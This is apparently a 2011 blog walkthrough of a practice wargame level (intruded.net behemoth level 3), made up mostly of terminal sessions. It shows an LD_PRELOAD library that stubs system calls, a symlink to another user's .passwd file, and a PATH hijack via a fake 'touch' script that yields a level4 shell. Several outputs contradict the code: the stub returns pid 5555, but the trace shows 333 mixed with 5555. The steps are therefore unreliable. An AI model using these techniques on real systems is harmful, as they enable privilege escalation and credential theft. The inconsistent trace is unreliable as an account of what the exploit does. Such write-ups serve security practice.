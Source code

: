 Title: intruded.net, behemoth: level 3
Date: 2011/09/27 22:32
Author: Ken Ko
Tags: intruded.net, behemoth, ltrace
Category: tutorials

Preliminary testing has shown that there's a <strong>sleep(2000);</strong> call within level3. Let's get rid of that. 

Oh, also, another note: level3 attempts to touch a random file in your current directory so <strong>this must be run from /tmp</strong> where we have write permissions. 

<pre>
<code>
level3@behemoth:/tmp$ cat sleep.c
#include <stdlib.h>

int sleep(int n) {
        return 0;
}
level3@behemoth:/tmp$ !gcc
gcc -fPIC -shared -o sleep.so sleep.c
level3@behemoth:/tmp$ !expo
export LD_PRELOAD="/tmp/sleep.so"
level3@behemoth:/tmp$
level3@behemoth:/tmp$
level3@behemoth:/tmp$ /wargame/level3

level3@behemoth:/tmp$ ltrace /wargame/level3
__libc_start_main(0x80484a4, 1, 0xbffffab4, 0x80485c0, 0x8048570 <unfinished ...>
getpid()                                            = 2555
seteuid(1004)                                       = -1
sprintf("touch 2555", "touch %d", 2555)             = 10
__lxstat(3, "2555", 0xbffff990)                     = -1
unlink("2555")                                      = -1
system("touch 2555" <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                              = 0
sleep(2000)                                         = 0
sprintf("cat ", "cat ")                             = 4
system("cat   2555" <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                              = 0
+++ exited (status 0) +++
level3@behemoth:/tmp$
</code>
</pre>

Hot.

Let's try to get rid of that sleep(), among other things:

<pre>
<code>
level3@behemoth:/tmp$ cat sleep.c
#include <stdlib.h>
#include <sys/types.h>
#include <sys/stat.h>
//#include <unistd.h>

int lstat (const char *c, struct stat *s) {
        return 0;
}

int unlink (const char * c) {
        return 0;
}

pid_t getpid(void) {
        return 5555;
}

int sleep(int n) {
        return 0;
}
</code>
</pre>

Now we have a fixed pid that gets returned so we know we'll be looking for <strong>/bin/333</strong>. 

<pre>
<code>
level3@behemoth:/tmp$ export LD_PRELOAD="/tmp/sleep.so"
level3@behemoth:/tmp$ ls -lh 5555
lrwxrwxrwx 1 level3 level3 20 2011-09-15 03:57 5555 -> /home/level4/.passwd
level3@behemoth:/tmp$ ltrace /wargame/level3
__libc_start_main(0x80484a4, 1, 0xbffffa94, 0x80485c0, 0x8048570 <unfinished ...>
getpid()                                            = 333
seteuid(1004)                                       = -1
sprintf("touch 5555", "touch %d", 5555)               = 10
__lxstat(3, "5555", 0xbffff970)                      = 0
unlink("333")                                       = 0
system("touch 333" <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                              = 0
sleep(2000)                                         = 0
sprintf("cat ", "cat ")                             = 4
system("cat   333"#!/bin/bash
whoami
/bin/sh
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                              = 0
+++ exited (status 0) +++
level3@behemoth:/tmp$
</code>
</pre>

Thing is, we now get a lot of permission denied; incredibly lame! But wait! What is this?

<em>system("touch 333"</em>

What if we had a script named touch... wouldn't it be run? Time to get a shell.

<pre>
<code>
level3@behemoth:/tmp$ chmod +x touch
level3@behemoth:/tmp$ cat touch
/bin/sh
level3@behemoth:/tmp$ PATH="/tmp" /wargame/level3
sh-3.1$ /usr/bin/whoami
level4
sh-3.1$
</code>
</pre>

Awesome possum; time to move on.
